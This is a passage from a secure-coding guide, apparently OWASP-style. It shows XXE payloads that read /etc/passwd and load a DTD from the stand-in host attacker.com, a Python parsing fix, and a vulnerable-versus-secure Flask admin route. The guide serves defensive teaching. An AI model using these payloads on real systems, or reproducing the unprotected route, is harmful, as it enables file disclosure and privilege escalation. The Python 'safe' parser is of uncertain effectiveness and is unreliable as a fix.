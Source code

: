 **XXE Attack Examples:**
```xml
<!-- External entity injection -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
    <user>&xxe;</user>
</root>

<!-- Remote XXE -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "http://attacker.com/malicious.dtd">
]>
<root>
    <data>&xxe;</data>
</root>
```

**Prevention:**
```python
# Secure XML parsing (Python)
import xml.etree.ElementTree as ET

# Disable external entity processing
def safe_xml_parse(xml_data):
    parser = ET.XMLParser()
    parser.parser.DefaultHandler = lambda data: None
    parser.parser.ExternalEntityRefHandler = lambda *args: False
    
    return ET.fromstring(xml_data, parser)
```

#### A05: Broken Access Control

**Access Control Patterns:**

**1. Vertical Privilege Escalation**
```python
# Vulnerable code
@app.route('/admin/users')
def admin_users():
    # Missing authorization check
    return render_template('admin_users.html', users=get_all_users())

# Secure code
@app.route('/admin/users')
@require_role('admin')
def admin_users():
    return render_template('admin_users.html', users=get_all_users())
```
